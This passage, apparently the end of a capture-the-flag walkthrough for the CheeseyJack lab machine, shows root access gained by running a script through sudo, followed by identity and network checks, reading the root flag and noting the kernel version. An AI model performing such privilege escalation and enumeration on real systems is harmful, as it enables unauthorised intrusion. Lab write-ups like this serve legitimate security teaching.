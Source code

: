```bash
crab@cheeseyjack:~/.bin$ sudo ./root.sh 
```
We can enter commands again. Let's see who we are, what membership I have as user and what machine we are working on.
```bash
root@cheeseyjack:/home/crab/.bin# whoami;id;hostname;ifconfig
root
uid=0(root) gid=0(root) groups=0(root)
cheeseyjack
enp0s17: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.42  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::adbd:6430:362e:1957  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:e1:b2:df  txqueuelen 1000  (Ethernet)
        RX packets 1614  bytes 416890 (416.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1283  bytes 184056 (184.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 137  bytes 12746 (12.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 137  bytes 12746 (12.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@cheeseyjack:/home/crab/.bin# ls /root
root.txt
```
Looks like we're root and it's time to capture the root flag!
```bash
root@cheeseyjack:/home/crab/.bin# cat /root/root.txt
                    ___ _____
                   /\ (_)    \
                  /  \      (_,
                 _)  _\   _    \
                /   (_)\_( )____\
                \_     /    _  _/
                  ) /\/  _ (o)(
                  \ \_) (o)   /
                   \/________/    


WOWWEEEE! You rooted my box! Congratulations. If you enjoyed this box there will be more coming.

Tag me on twitter @cheesewadd with this picture and i'll give you a RT!


```
Well, since the machine was owned fully and I forgot to see what Linux distro and kernel was used, I had to execute some commands to make my notes complete.
```bash
root@cheeseyjack:/home/crab/.bin# uname -a
Linux cheeseyjack 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
root@cheeseyjack:/home/crab/.bin# uname -mrs
Linux 5.4.0-48-generic x86_64
root@cheeseyjack:/home/crab/.bin# cat /etc/issue
Ubuntu 20.04.1 LTS \n \l

root@cheeseyjack:/home/crab/.bin# 

```

